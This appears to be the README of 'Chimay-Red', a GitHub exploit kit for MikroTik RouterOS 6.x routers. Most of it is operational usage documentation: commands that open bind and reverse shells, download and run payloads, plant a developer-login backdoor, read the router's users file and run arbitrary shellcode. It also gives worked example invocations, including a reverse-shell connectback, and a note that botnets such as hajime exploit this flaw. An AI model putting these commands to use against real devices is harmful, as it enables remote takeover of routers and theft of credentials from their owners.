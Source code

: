 # Chimay-Red

### :warning: This is a fork to the [potato.sh](https://github.com/potato-sh) organization for my blog and portfolio purposes, I created this software in 2018 and Seekintoo still retains the legal rights to it. You can verify this in the commit information.

Mikrotik RouterOS (6.x < 6.38.5) exploit kit. Reverse engineered from the "Vault 7" WikiLeaks publication.

To learn more about the creation and purpose of this software, please visit: [http://blog.seekintoo.com/chimay-red.html](http://blog.seekintoo.com/chimay-red.html)

## Important Note: 

After further consideration by the **Seekintoo** team, it has been decided that additional architecture support will NOT be released exploiting any `RouterOS` supporting architecture either than `x86` and `mips`*.

The reasoning for this, after further research, is that there are currently botnet(s) operating on the internet taking advantage of this exact exploit attacking both x86 and mips* systems, both of which public exploits have been released for. The name of one of these botnets is "hajime". hajime's inception was long ago, but as of late it has been noticed to abuse the chimay-red exploit on `RouterOS 6.x` devices as covered and analyzed extensively (to name a few):

- [https://avlab.pl/en/exploit-chimay-red-vulnerable-device-mikrotik-and-ubiquiti-form-giant-botnet](https://avlab.pl/en/exploit-chimay-red-vulnerable-device-mikrotik-and-ubiquiti-form-giant-botnet)

- [https://www.bleepingcomputer.com/news/security/hajime-botnet-makes-a-comeback-with-massive-scan-for-mikrotik-routers/](https://www.bleepingcomputer.com/news/security/hajime-botnet-makes-a-comeback-with-massive-scan-for-mikrotik-routers/)

- [https://www.corero.com/blog/882-hajime-botnet-scanning-for-vulnerable-mikrotik-routers.html](https://www.corero.com/blog/882-hajime-botnet-scanning-for-vulnerable-mikrotik-routers.html)

- [https://forum.mikrotik.com/viewtopic.php?t=132490](https://forum.mikrotik.com/viewtopic.php?t=132490)

In-addition to the timing of the release of the first (known) public PoC for Chimay-Red by [BigNerd](https://github.com/BigNerd95/Chimay-Red) in contrast to the current state of rampant `RouterOS` harvesting botnets is currently too much to ignore. Therefore **Seekintoo** will **NOT** be responsible for contributing to these criminal enterprises.

Although if public exploits for additional architectures are found posted on source code hosting facilities, if robust enough, they WILL be re-supported here.

Feel free to contact me at: dpidhirney@seekintoo dot com

## Chimay-Red Usage:

```text
usage: chimay_red.py [-h] -t TARGET [-l LHOST] [--shellcommand SHELLCOMMAND]
                     [-d] [--breakpoints BREAKPOINTS] [-a ARCHITECTURE]
                     [--gdbport GDBPORT] [--binary BINARY]
                     [--shellcode SHELLCODE] [--vector VECTOR]
                     [--leakrounds LEAKROUNDS] [-v] [--version]
                     command

positional arguments:
  command               command function to run on target, see below for
                        options

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target address:port
  -l LHOST, --lhost LHOST
                        specify the connectback* address
  --shellcommand SHELLCOMMAND
                        return interactive shell as main payload (default)
  -d, --debug           enable debugging mode
  --breakpoints BREAKPOINTS
                        list of comma delimited breakpoint addresses. Eg.
                        0x800400,0x800404
  -a ARCHITECTURE, --architecture ARCHITECTURE
                        target architecture (will detect automatically if
                        target in route table range)
  --gdbport GDBPORT     port to use when connecting to remote gdbserver
  --binary BINARY       target binary (www)
  --shellcode SHELLCODE
                        custom (optional) shellcode payload binary filepath
  --vector VECTOR       optional vector type, see below for options
  --leakrounds LEAKROUNDS
                        amount of rounds to leak pointers, higher is better,
                        but takes more time
  -v, --verbose         Verbosity mode
  --version             show program's version number and exit

Commands:
    COMMAND                    FUNCTION
    
    bindshell                    create a bindshell
    connectback                  create a reverse shell
    download_and_exe             connect back and download a file to then execute
    ssl_download_and_exe         connect back and download a file via SSL to then execute
    write_devel                  write "devel-login" file to allow developer account login
    write_devel_read_userfile    in addition to enabling developer logins, read back the users file
    
    custom_shellcode             run arbitrary shellcode from `--shellcode` binfile
    custom_shell_command         run a arbitrary $sh one liner on the target
    
Vectors:
    default: (mikrodb)

    [Generic]
        mikrodb:
            use the accompanying mikrodb database to load offsets 
            based off of detected remote version to build a ROP chain.
    
        build:
            build a ROP chain from scratch given the www binary matching
            the remote version running.
    
    [Experimental]
        leak:
            leak pointers from shared libraries to give better odds of
            finding base offset of uclibc.
            
Examples:

    Running simple shell command:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=mikrodb     \
            --lhost=192.168.56.1 \
            --shellcommand="ls -la" custom_shell_command

    Getting a reverse shell:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=mikrodb \
            --lhost=192.168.56.1 connectback
            
    Debugging the target:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=build       \
            --architecture="x86" \
            --binary=$PWD/storage/www/www-x86-6.38.4.bin \
            --debug        \
            --gdbport=4444 \
            --lhost=192.168.56.1 connectback
    

==================================================
|  _______   _                     ___         __|
| / ___/ /  (_)_ _  ___ ___ ______/ _ \___ ___/ /|
|/ /__/ _ \/ /  ' \/ _ `/ // /___/ , _/ -_) _  / |
|\___/_//_/_/_/_/_/\_,_/\_, /   /_/|_|\__/\_,_/  |
|                      /___/                     |
==================================================
```

## mikrodb Usage:

```text
usage: mikrodb.py [-h] [-v] [--architectures ARCHITECTURES]
                  [--versions VERSIONS]

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosity mode
  --architectures ARCHITECTURES
                        architectures to build for. Eg. --architectures="x86"
                        or "x86,mmips"
  --versions VERSIONS   versions to build for. Eg. --versions="6.38.4" or
                        "6.36.4,6.38.4"

Example: 
    ./mikrodb.py --architectures="x86" --versions="6.36.4,6.38.4"

```
